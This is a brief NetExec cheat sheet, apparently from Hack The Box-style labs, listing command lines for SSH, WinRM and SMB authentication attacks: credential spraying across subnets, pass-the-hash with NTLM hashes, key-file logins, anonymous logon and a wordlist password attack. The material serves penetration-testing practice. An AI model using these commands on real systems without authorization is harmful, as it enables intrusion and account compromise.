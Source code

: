 # NetExec

### SSH

* attempt ssh authentication to multiple hosts with one set of credentials&#x20;

```
./nxc ssh targets.txt -u james -p password123
./nxc ssh targets.txt -u balthazar -p 'password123'
./nxc ssh targets.txt -u root -p asdfghjkl
```

* attempt ssh auth to any host in a subnet with one set of credentials&#x20;

```
./nxc ssh 172.16.1.0/24 -u james -p password123
```

### WINRM

* attempt winrm authentication to multiple hosts with one set of credentials&#x20;

```
./nxc winrm targets.txt -u balthazar -p 'abc123!!!'
# domain authentication
./nxc winrm targets.txt -u 'HTB.local\balthazar' -p 'abc123!!!' 
./nxc winrm targets.txt -u 'HTB.local\james' -p password123
```

* attempt winrm authentication to a domain with a username and hash

```
./nxc winrm targets.txt -d HTB.local -u blake -H 12f18eteb6f8187fa52f3f729896bbb7
./nxc winrm targets.txt -u Administrator -H b99ed3c3d34c4576bcd33c76420be934
```

### SMB

* attempt smb authentication to multiple hosts with one set of credentials&#x20;

```
./nxc smb targets.txt -u 'HTB.local\james' -p password123
```

* attempt ssh authentication with a keyfile instead of a password

```
./nxc ssh 172.16.1.0/24 -u root --key-file ./10.10.110.100/ssh/id_rsa -p ''
```

* attempt smb auth to any host in a subnet with anonymous logon&#x20;

```
./nxc smb 172.16.1.0/24 -u anonymous -p ''
```

* smb authentication to a domain with a specific username and attempt a password wordlist

```
./nxc smb 172.16.1.13 -d DANTE.local -u 'gerald' -p /usr/share/seclists/Passwords/2020-200_most_used_passwords.txt 
```
